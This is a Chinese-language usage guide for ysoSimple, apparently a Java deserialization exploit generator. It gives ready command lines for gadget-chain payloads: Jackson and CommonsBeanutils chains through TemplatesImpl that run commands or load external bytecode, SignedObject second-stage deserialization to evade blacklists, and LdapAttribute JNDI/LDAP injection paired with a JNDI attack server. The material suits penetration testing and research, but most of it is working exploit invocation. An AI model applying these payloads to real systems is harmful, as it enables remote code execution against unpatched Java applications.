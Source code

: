 工具：使用方式如下

```java
-m YsoAttack -g Jackson -a "Templateslmpl:auto_cmd:calc"
```

这里的auto_cmd参数可以替换为字节码执行的多种漏洞利用效果参数，详情见漏洞利用参数整理一栏。

举个Templateslmpl加载外部字节码的例子：

```java
-m YsoAttack -g Jackson -a "Templateslmpl:class_file:/tmp/KeyUtils.class"
```

##### Templateslmpl0 加载字节码(不继承AbstractTranslet)

描述：TemplatesImpl加载的字节码需要继承AbstractTranslet类，但经过yulegeyu师傅的研究通过配置TemplatesImpl对象可以让字节码无需继承AbstractTranslet也可以类加载，参考自[Java安全攻防之从wsProxy到AbstractTranslet](https://mp.weixin.qq.com/s/HuQV6PNBCW4qSKQVQg8ifA)

限制：目前ysoSimple还不支持-compress对TemplatesImpl0和其加载的字节码进行压缩，后面研究下

工具：使用`Templateslmpl0:`​加载的字节码类不需要继承AbstractTranslet类

```java
-m YsoAttack -g CommonsBeanutils1 -a "Templateslmpl0:auto_cmd:calc"
```

这里的auto_cmd参数可以替换为字节码执行的多种漏洞利用效果参数，详情见漏洞利用参数整理一栏。

##### SignedObject 二次反序列化

描述：二次反序列化打法通常都是为了避免第一层反序列化时遇到的黑名单，而SignedObject的getObject方法可以触发二次反序列化。比较经典的案例就是帆软反序列化：[帆软channel接口反序列化漏洞分析](https://forum.butian.net/share/2806)

工具：使用`SignedObject:`​参数后面跟二次反序列的利用链

```java
-m YsoAttack -g CommonsBeanutils2 -a "SignedObject:CommonsCollections6:raw_cmd:calc"
```

##### LdapAttribute LDAP注入

描述：通过LdapAttribute#getAttributeDefinition可以触发ldap注入，学习自：[Real Wolrd CTF Old System New Getter Jndi Gadget](https://y4er.com/posts/real-wolrd-ctf-old-system-new-getter-jndi-gadget/)，[rwctf-2021-old-system-writeup](https://mp.weixin.qq.com/s?__biz=MzIwMDk1MjMyMg==&amp;mid=2247486102&amp;idx=1&amp;sn=73c28a27bce548a4b9eebe3bada08c39)

限制：在LdapAttribute参数后面跟的ldap的地址必须是`ldap://127.0.0.1:1389`​，没有后缀。RealWolrd赛题是jdk1.4，在jdk1.8中也测试成功

工具：增加LdapAttribute配置参数，ldap地址后面没有后缀

```bash
-m YsoAttack -g CommonsBeanutils2 -a "LdapAttribute:ldap://127.0.0.1:1389"
```

将JNDI引擎需要这样启动，即可进行漏洞利用：

```python
-m JNDIAttack -i 127.0.0.1 -u /Basic/auto_cmd/Y2FsYw==
```
